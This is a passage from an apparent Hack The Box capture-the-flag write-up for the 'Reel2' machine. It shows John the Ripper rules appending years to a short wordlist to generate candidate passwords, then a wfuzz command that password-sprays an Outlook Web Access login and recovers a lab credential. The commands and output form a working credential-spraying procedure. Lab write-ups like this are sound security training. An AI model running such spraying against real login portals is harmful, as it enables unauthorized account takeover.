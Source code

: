 <div class="filename"><span>wordlist.txt</span></div>

```
fika
@egre55
summer
hot!
```

I'm using [KoreLogicRulesAppendYears](https://contest-2010.korelogic.com/rules.html) (I've updated it to include common birth years from 1900 to 2029).

<div class="filename"><span>john.conf</span></div>

```
[List.Rules:KoreLogicRulesAppendYears]
cAz"19[0-9][0-9]"
Az"19[0-9][0-9]"
cAz"20[012][0-9]"
Az"20[012][0-9]"
```

Let's get to work.

```
# /opt/john/john --rules:KoreLogicRulesAppendYears -w:wordlist.txt --stdout > passwords.txt
Press 'q' or Ctrl-C to abort, almost any other key for status
1040p 0:00:00:00 100.00% (2020-10-09 11:04) 104000p/s hot!2029
```

Not too shabby. I got a list of 1,040 passwords.

### Password spraying OWA with `wfuzz`

I'm going to use the credentials (`usernames.txt` and `passwords.txt`) above to password-spray OWA with `wfuzz`, with a total of 24,960 combinations. I have a good feeling about this.

```
# wfuzz -L -p 127.0.0.1:8080 -w usernames.txt -w passwords.txt -d "destination=https%3A%2F%2Freel2%2Fowa%2Fauth.owa&flags=0&forcedownlevel=0&trusted=0&username=FUZZ&password=FUZ2Z&isUtf8=1" -t 40 --hs "isn't correct" -H "Cookie: PBack=0" https://reel2/owa/auth.owa
********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************

Target: https://reel2/owa/auth.owa
Total requests: 24960

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                       
===================================================================

000002963:   400        0 L      2 W      11 Ch       "s.svensson - Summer2020"                                                                     

Total time: 0
Processed Requests: 24960
Filtered Requests: 24959
Requests/sec.: 0
```


[1]: https://www.hackthebox.eu/home/machines/profile/281
[2]: https://www.hackthebox.eu/home/users/profile/9164
[3]: https://www.hackthebox.eu/